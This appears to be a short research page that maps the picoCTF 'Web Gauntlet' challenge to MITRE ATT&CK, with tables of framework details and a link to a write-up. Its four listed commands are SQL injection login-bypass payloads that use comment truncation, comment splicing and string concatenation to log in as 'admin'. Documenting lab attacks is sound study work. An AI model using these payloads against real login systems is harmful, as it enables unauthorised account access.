 # Cyber4ML_Framework application in "Web Gauntlet" challenge

## Framework application details

|Documentation|MITRE ATT&CK|Network Analysis|Log Analysis|
|-|-|-|-|
|Yes|Yes|No|No|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|No|X|Y|

## Documentation

Documentation of the attack: [Web_Gauntlet Documentation](https://github.com/stevendamianakis/PicoCTF_Writeups/blob/main/Web_Exploitation/Web_Gauntlet/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command/Script |
|-|-|-|-|
| Execution | Exploitation for Client Execution | - | (1), (2), (3), (4) |


#### Commands
- (1)
```
SELECT * FROM users WHERE username='admin' --' AND password='random_pass'
```
- (2)
```
SELECT * FROM users WHERE username='admin' /*' AND password='*/ except select '1','1' 
```
- (3)
```
SELECT * FROM users WHERE username='admin'/*' AND password='*/||''
```
- (4)
```
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='*/||''
```
